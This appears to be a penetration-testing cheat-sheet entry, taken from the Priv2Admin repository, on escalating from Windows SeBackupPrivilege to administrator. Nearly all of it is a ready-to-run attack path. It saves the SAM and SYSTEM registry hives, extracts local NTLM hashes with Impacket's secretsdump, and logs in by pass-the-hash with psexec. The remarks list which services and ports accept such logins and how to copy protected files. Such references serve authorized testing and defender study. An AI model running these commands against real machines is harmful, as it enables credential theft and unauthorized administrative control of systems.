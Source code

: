# SeBackupPrivilege

From [gtworek/Priv2Admin](https://github.com/gtworek/Priv2Admin)

| Privilege | Impact | Tool | Execution path | Remarks |
| --- | --- | --- | --- | --- |
|`SeBackup`| ***Admin*** | 3rd party tool <br><br> Sensitive files access (in combination with `SeRestore`): <br> ***Built-in commands*** | 1. Enable the privilege in the token <br><br> 2. Export the `HKLM\SAM` and `HKLM\SYSTEM` registry hives:<br> `cmd /c "reg save HKLM\SAM SAM & reg save HKLM\SYSTEM SYSTEM"` <br><br> 3. Eventually transfer the exported hives on a controlled computer <br><br> 4. Extract the local accounts hashes from the export `SAM` hive. For example using `Impacket`'s `secretsdump.py` Python script: <br> `secretsdump.py -sam SAM -system SYSTEM LOCAL` <br><br> 5. Authenticate as the local built-in `Administrator`, or another member of the local `Administrators` group, using its `NTLM` hash (Pass-the-Hash). For example using `Impacket`'s `psexec.py` Python script: <br> `psexec.py -hashes ":<ADMINISTRATOR_NTLM>" <Administrator>@<TARGET_IP>` <br><br> Alternatively, can be used to read sensitive files with `robocopy /b` | - `User Account Control` may prevent Pass-the-Hash authentications with the local accounts but by default the built-in `Administrator` (RID 500) account is not concerned (as `FilterAdministratorToken` is disabled by default). <br><br> - Pass-the-Hash authentications can be attempted over (at least) the following services: `SMB` (port TCP 445), `SMB` over `NetBIOS` (port TCP 139), `WinRM` (ports TCP 5985 / 5986), or `RDP` if the `Restricted Admin` feature is enabled server side (port TCP 3389). <br><br> - Access to sensitive files may be more interesting if you can read `%WINDIR%\MEMORY.DMP`. <br><br> - `SeBackupPrivilege` is not helpful when it comes to open and write to files as it may only be used to copy files. <br><br> - Robocopy requires both `SeBackup` and `SeRestore` to work with the `/b` parameter (which are both granted to members of the `Backup Operators` group by default). <br> Instead, [`Copy-FileSeBackupPrivilege`](https://github.com/giuliano108/SeBackupPrivilege) can be used to backup files through a process with only the `SeBackup` privilege in its token: <br> `Import-Module .\SeBackupPrivilegeUtils.dll` <br> `Import-Module .\SeBackupPrivilegeCmdLets.dll` <br> `Set-SeBackupPrivilege` <br> `Copy-FileSeBackupPrivilege <SOURCE_FILE> <DEST_FILE>` |